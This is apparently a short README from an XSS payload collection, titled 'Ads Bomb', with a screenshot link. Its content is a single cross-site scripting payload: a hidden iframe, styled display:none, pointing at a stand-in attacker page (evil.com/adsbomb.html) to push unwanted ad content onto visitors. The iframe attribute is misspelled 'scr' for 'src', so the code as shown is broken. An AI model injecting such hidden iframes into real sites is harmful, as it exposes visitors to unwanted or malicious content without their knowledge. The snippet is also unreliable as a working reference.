 # Ads Bomb

## XSS Code :
    <iframe scr="http://evil.com/adsbomb.html" style="display:none"></iframe>

![screenshot](img/screenshot.png)
